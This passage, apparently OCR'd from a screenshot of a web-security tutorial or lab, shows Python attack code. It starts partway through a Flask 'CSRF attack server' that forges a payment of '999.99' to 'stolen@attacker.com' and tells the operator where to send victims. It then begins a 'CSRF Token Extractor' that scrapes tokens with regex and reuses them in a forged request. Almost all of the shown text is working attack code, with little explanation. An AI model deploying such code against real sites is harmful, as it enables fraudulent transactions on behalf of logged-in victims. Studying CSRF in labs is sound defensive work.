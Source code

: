 ```python
        amount='999.99',
        email='stolen@attacker.com'
    )

if __name__ == '__main__':
    print("[*] Starting CSRF attack server...")
    print("[*] Send victims to: http://localhost:5000")
    print("[!] Victims must be logged into the target site")
    app.run(port=5000)
```

### 2. CSRF Token Extractor (If Site Had Weak Implementation)
```python
#!/usr/bin/env python3
"""
CSRF Token Extraction - For sites with predictable tokens
"""

import requests
import re
from bs4 import BeautifulSoup

def extract_csrf_token(html):
    """Extract CSRF token from HTML"""
    # Look for common CSRF token patterns
    patterns = [
        r'csrfmiddlewaretoken["\']?\s*[:=]\s*["\']?([a-zA-Z0-9]+)',
        r'name=["\']csrf_token["\'].*?value=["\']([^"\']+)',
        r'csrf_token["\']?\s*:\s*["\']([^"\']+)',
        r'X-CSRFToken["\']?\s*:\s*["\']([^"\']+)'
    ]
    
    for pattern in patterns:
        match = re.search(pattern, html)
        if match:
            return match.group(1)
    
    # Try BeautifulSoup
    soup = BeautifulSoup(html, 'html.parser')
    token_input = soup.find('input', {'name': 'csrfmiddlewaretoken'})
    if token_input:
        return token_input.get('value')
    
    return None

def demo_csrf_with_token_theft():
    """Demonstrate CSRF even with tokens (if predictable)"""
    
    # This wouldn't work on our vulnerable app since CSRF is disabled
    # But shows how CSRF can still happen with weak token implementation
    
    session = requests.Session()
    
    # Get login page to steal CSRF token
    login_page = session.get('http://localhost:8000/login/')
    csrf_token = extract_csrf_token(login_page.text)
    
    if csrf_token:
        print(f"[+] Extracted CSRF token: {csrf_token}")
        
        # Use stolen token in attack
        attack_data = {
```